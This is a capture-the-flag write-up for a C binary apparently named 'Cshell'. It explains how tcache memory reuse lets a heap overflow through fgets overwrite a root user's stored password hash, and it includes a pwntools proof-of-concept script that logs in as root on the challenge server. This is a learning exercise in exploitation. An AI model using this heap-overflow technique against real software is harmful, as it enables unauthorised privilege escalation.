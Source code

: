 ```c
	banner();
	user = malloc(sizeof(struct users )* 4);
	root = user + 1;
	strcpy(user->name,"tempname");
	strcpy(user->passwd,"placeholder");
	strcpy(root->name,"root");
	strcpy(root->passwd,"guessme:)");
	strcpy(root_t->name,"root");
	root_t->ptr = root;
	root_t->id = 0;
	root_t->next = user_t;
	setup();
	strcpy(user->name,username);
	strcpy(user->passwd,hash);
	strcpy(user_t->name,username);
	user_t->id=1000;
	user_t->ptr = user;
	user_t->next = NULL;
	menu();
	return 0;
}
```

When the program calls `free()`, the memory will be not merged immediately with other freed memory. It is saved into tcachebin due to optimization. In an event where a memory of same size is requested for allocation, the program will allocate the memory in the tcachebin.

So, if I tried to `malloc(0x60)`, it will return me an address of `Eric_buff` which is located in front of `root`.

Visualisation of the heap memory:<br />
| root_t | user_t | alex_buff | Johnny_buff | Eric_buff/recently allocated memory | user | root |

The offset from the recently allocated memory to the `root` is less than 201 bytes. So, we can make use of `fgets()` in `setup()` function to perform heap overflow.

Note: Heap overflow overwrites content of `root` instead of `root_t`

Idea of exploit: perform `malloc(120)` and overflow the content of user and password in `root` (`crypt('b', 1337)` = 13i3VfOPZIccE). Change user to "root" (the username is still named as "root" as the program verifies it with the username in `root_t` instead of `root`) and provide the password "b". Lastly, spawn a shell with option 3.

POC:
```python
from pwn import *

#r = process('./Cshell')
r = remote('pwn.be.ax', 5001)
r.recvuntil(b'> ')
r.sendline(b'a') # random username
r.recvuntil(b'> ')
r.sendline(b'a') # random password
r.recvuntil(b'> ')
r.sendline(b'120') # bio size
r.recvuntil(b'> ')
r.sendline(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA13i3VfOPZIccE') # content of bio, crypt('b', 1337) = 13i3VfOPZIccE
r.recvuntil(b'Choice > ')
r.sendline(b'1') # change user to root
r.recvuntil(b'Username:')
r.sendline(b'root')
r.recvuntil(b'Password:')
r.sendline(b'b')
r.recvuntil(b'Choice > ')
```